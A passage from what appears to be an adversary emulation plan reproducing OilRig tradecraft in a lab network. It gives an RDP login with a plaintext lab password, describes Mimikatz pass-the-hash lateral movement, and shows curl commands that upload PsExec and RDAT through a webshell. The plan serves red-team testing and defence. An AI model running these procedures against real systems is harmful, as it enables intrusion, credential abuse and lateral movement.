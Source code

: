 ```bash
xfreerdp /u:'boombox\gosta' /p:'d0ntGoCH4$ingW8trfalls' /v:localhost:13389
```

<br>

### :moyai: Source Code
*  Plink command line tool: [Plink](../Resources/Plink/)

<br>

### :microscope: Cited Intelligence
*  Plink: https://unit42.paloaltonetworks.com/unit42-striking-oil-closer-look-adversary-infrastructure/
*  SSH: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  RDP: https://go.crowdstrike.com/rs/281-OBQ-266/images/Report2020CrowdStrikeGlobalThreatReport.pdf
*  RDP: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 8 - Lateral Movement to the SQL Server

### :microphone: Voice Track

Step 8 emulates OilRig using the credentials collected for the user `tous` in 
the previous step to move laterally to the SQL server. 

First, the webshell is used to download PsExec, RDAT, and a newly named 
Mimikatz to disk. Through the tunneled RDP, an elevated Command Prompt is opened 
and, using the NTLM hash for `tous` from the credential dump, Mimikatz pass the 
hash is executed to spawn a second shell as `tous` on `WATERFALLS (10.1.0.6)`. 
As `tous`, RDAT is copied over to `ENDOFROAD (10.1.0.7)`, then PsExec is executed 
to get a shell on `ENDOFROAD (10.1.0.7)`

---

### :biohazard: Procedures

Download psexec to `WATERFALLS (10.1.0.6)` as `C:\Windows\System32\ps.exe`

```bash
# OilRig has downloaded PsExec as ps.exe

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\System32' -F "vir=false" -F "nen=ps.exe" -F 'f1=@PsExec.exe' https://10.1.0.6/ews/contact.aspx
```

Download RDAT to `WATERFALLS (10.1.0.6)` as `Nt.dat`

```bash
# OilRig has saved RDAT to disk as Nt.dat

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\Temp' -F "vir=false" -F "nen=Nt.dat" -F 'f1=@RDAT.exe' https://10.1.0.6/ews/contact.aspx
```
